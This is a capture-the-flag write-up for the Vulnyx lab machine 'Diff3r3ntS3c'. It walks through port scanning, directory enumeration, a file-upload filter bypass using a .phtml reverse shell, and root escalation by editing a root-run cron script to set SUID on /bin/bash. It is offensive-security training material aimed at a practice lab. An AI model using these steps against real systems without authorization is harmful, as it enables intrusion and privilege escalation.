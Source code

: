 ```yaml
---
layout: single 
title: Diff3r3ntS3c - Vulnyx
date: 2024-06-13
classes: wide
header:
  teaser: /assets/images/vulnyx-writeup-diff3r3nts3c/diff_logo.png
  teaser_home_page: true
  icon: /assets/images/vulnyx.png
categories:
  - Vulnyx
  - Low
tags:
  - Arbitrary File Upload
  - Abusing Cronjob Vulnerability
---
```


![logo](/assets/images/vulnyx-writeup-diff3r3nts3c/diff_logo.png)

## Port Scanning

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 192.168.1.111
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-13 19:01 CEST
Initiating ARP Ping Scan at 19:01
Scanning 192.168.1.111 [1 port]
Completed ARP Ping Scan at 19:01, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:01
Scanning 192.168.1.111 [65535 ports]
Discovered open port 80/tcp on 192.168.1.111
Completed SYN Stealth Scan at 19:01, 0.79s elapsed (65535 total ports)
Nmap scan report for 192.168.1.111
Host is up, received arp-response (0.000041s latency).
Scanned at 2024-06-13 19:01:05 CEST for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:FD:18:1D (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

## Service Discovery

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Diff3r3ntS3c
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:FD:18:1D (VMware)
```

## Method 1

We only have port 80 open. If we look at the webpage, we get the following information:
![form](/assets/images/vulnyx-writeup-diff3r3nts3c/form.png)

Since we have a form, let's try to exploit an arbitrary file upload vulnerability.

If we try to upload a .php file, we get the following error:

![error](/assets/images/vulnyx-writeup-diff3r3nts3c/error.png)

After trying several extensions, we get the correct one -> *.phtml*

To see where the uploaded file is located, we perform a scan with gobuster:
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.111/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.111/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.1.111/images/]
/uploads              (Status: 301) [Size: 316] [--> http://192.168.1.111/uploads/]
/assets               (Status: 301) [Size: 315] [--> http://192.168.1.111/assets/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
```
We can see that we have a directory called /uploads where the files we upload will be stored.

If we check this directory, we can see that the file with a reverse shell that we uploaded is there. If we execute it, we get a reverse shell.

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.110] from (UNKNOWN) [192.168.1.111] 58210
Linux Diff3r3ntS3c 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
 21:09:56 up 10 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(candidate) gid=1000(candidate) groups=1000(candidate)
/bin/sh: 0: can't access tty; job control turned off
```

Once we have the reverse shell, we try to escalate privileges. To do this, we check if there is any suspicious task running with crontab
```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
* * * * * root /bin/sh /home/candidate/.scripts/makeBackup.sh
```

As we can see in the result, we have a script that we can execute as root in the .scripts directory of our user.

We can modify this script to get a root shell with the following line `chmod u+s /bin/bash`

We wait for the task to run again and then execute the command `bash -p` to get the root shell:
```bash
bash-5.2# whoami
root
```